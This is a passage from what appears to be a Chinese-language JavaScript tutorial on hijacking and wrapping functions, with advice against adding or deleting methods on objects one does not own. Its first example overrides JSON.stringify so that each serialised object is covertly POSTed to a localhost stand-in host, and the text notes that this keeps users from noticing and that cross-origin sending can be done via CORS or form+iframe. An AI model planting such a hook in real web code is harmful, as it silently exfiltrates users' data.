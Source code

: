 ```javascript
var tmp = JSON.stringify;
JSON.stringify = function(data) {
    $.ajax({
        url:'http://localhost',
        data: data,
        type: 'post'
    });
    return tmp(data)
};
```
对 JSON.stringify 函数进行劫持，当网站使用 JSON.stringify 解析数据时，会先把一份数据发送给本地，跨域可以使用 cors 或者 form+iframe 解决。为了不让用户发现，我们需要保存旧的函数，并且解析出结果返回给用户。

定义一个工具函数，它会先把原函数给保存下来，然后执行自定义函数，而原函数将会在自定义函数内部进行调用。重写了原有函数功能之后，重新调用时使用了 call/apply 进行调用，原因就是避免函数运行环境 this 对象变化了。使用 call/apply 能够确保劫持之前的运行上下文与劫持之后的运行上下文一致。
```javascript
var old = UIIntentionalStream.instance.loadOlderPosts;
UIIntentionalStream.instance.loadOlderPosts = function() {
    // hook before call
    old();
    // hook after call
};

// 封装
hookFunction(UIIntentionalStream.instance, 'loadOlderPosts', function(){
    /* This anonymous function gets called after UIIntentionalStream.instance.loadOlderPosts() has finished */
    doMyCustomStuff();
});

// Define this function so you can reuse it later and keep your overrides "cleaner"
function hookFunction(object, functionName, callback) {
    (function(originalFunction) {
        object[functionName] = function () {
            var returnValue = originalFunction.apply(this, arguments);

            callback.apply(this, [returnValue, originalFunction, arguments]);

            return returnValue;
        };
    }(object[functionName]));
}
```

#### 不新增方法 Don't add new methods
几乎不可能阻止你为任何对象添加方法，为非自己拥有的对象增加方法会导致命名冲突。因为一个对象此刻没有某个方法不代表它未来也没有，更槽糕的是如果将来原生的方法和你的方法行为不一致，你将陷入一场代码维护的噩梦。
大多数 JavaScript 库代码有一个插件机制，允许为代码库安全地新增一些功能。如果想修改，最佳最可维护的方式是创建一个插件。

#### 不删除方法 Don't remove methods
最简单的删除一个方法的方式是给对应的名字赋值为 null。
如果方法或属性是在对象的实例上定义的，可以使用 delete 操作符来删除。如果在对象的原型上 定义的属性或方法，使用 delete 操作符是不起作用的。
删除一个已存在对象的方法是糟糕的实践。
